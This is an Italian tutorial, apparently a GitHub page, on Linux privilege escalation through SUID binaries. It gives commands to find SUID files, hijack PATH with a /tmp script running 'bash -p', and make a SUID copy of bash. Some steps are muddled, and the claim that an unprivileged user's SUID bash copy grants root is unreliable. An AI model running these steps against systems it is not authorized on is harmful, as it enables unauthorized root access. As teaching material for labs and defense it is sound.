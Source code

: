 # Exploiting SUID Binaries

Oltre ai permessi classici di **lettura**, **scrittura** ed **esecuzione**, Linux introduce anche **permessi speciali**. <br>
Uno di questi è il **SUID** (*Set owner User ID*), che, se applicato a un file binario eseguibile, permette a chi lo esegue di farlo con i **privilegi del proprietario del file**, anziché con quelli del proprio utente.

Questa caratteristica, se mal configurata, può aprire la porta a **privilege escalation**, consentendo a un utente senza privilegi di eseguire comandi con i privilegi di root.

---

## 1 – Cosa sono i permessi SUID e perché sono pericolosi

Un file con SUID impostato appare nei permessi così:

```bash
-rwsr-xr-x 1 root root 12345 data nomefile
```

La `s` al posto della `x` nel primo gruppo di permessi indica che il file è eseguibile con i permessi del **proprietario** (`root` in questo esempio). <br>
Se il contenuto del file è modificabile, o se sfrutta comandi eseguibili controllabili dall’utente, può essere manipolato per ottenere privilegi elevati.

### Esempio:
Immagina uno script C che chiama il comando `cp` senza specificare il path assoluto (`/bin/cp`). Se un utente controlla una versione malevola di `cp` nella `$PATH`, questa verrà eseguita con i permessi dell’utente proprietario (es. root), permettendo di ottenere una shell privilegiata.

---

## 2 – Ricognizione: individuare i file con SUID

Dopo aver ottenuto una shell non privilegiata sulla macchina target:

```bash
whoami                   # Controlla l'utente attivo
id o groups <nomeutente> # Mostra i gruppi associati
```

Per trovare i file con bit SUID attivo:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Questa ricerca mostra tutti i file con il bit `SUID` impostato (`4000`), ignorando gli errori di permesso (`2>/dev/null`).

---

## 3 – Analisi dei binari sospetti

Quando troviamo un binario sospetto, controlliamone i permessi:

```bash
ls -la /percorso/nomefile
```

E analizziamo le **stringhe leggibili** al suo interno:

```bash
strings /percorso/nomefile
```

> Le "stringhe" sono sequenze di caratteri ASCII stampabili nel file binario. Analizzarle ci aiuta a capire se lo script chiama altri binari o comandi del sistema.

Se lo script richiama un altro comando (es. `bash`, `cp`, `mv`, `cat`, ecc.), possiamo provare a **sostituire quel comando** con una versione malevola controllata da noi.
Quindi rimuoviamo il file `rm file` e successiametne copiamo la bash nella directory corrente usando il comando
```
cp /bin/bash nomefileeliminato
```

### se il file è modificabile:
Se il file SUID chiama, ad esempio, `myscript`, possiamo creare un file `/tmp/myscript` che contiene:

```bash
#!/bin/bash
/bin/bash -p
```

Dove `-p` avvia una shell con gli **effettivi privilegi** del processo padre. Quindi:

```bash
chmod +x /tmp/myscript
export PATH=/tmp:$PATH
```

Dopodiché eseguiamo il file vulnerabile con SUID e otteniamo una shell privilegiata.

---

## 4 – Alternativa: sostituzione di binario

Se invece il binario ci permette di copiare file o di sostituirli, possiamo:

```bash
cp /bin/bash ./nomefile
chmod +s nomefile
```

Questo crea un nuovo file `nomefile` che è una copia di `bash` ma con bit SUID attivo. Eseguendolo:

```bash
./nomefile -p
```

Si ottiene una shell con privilegi elevati.

---

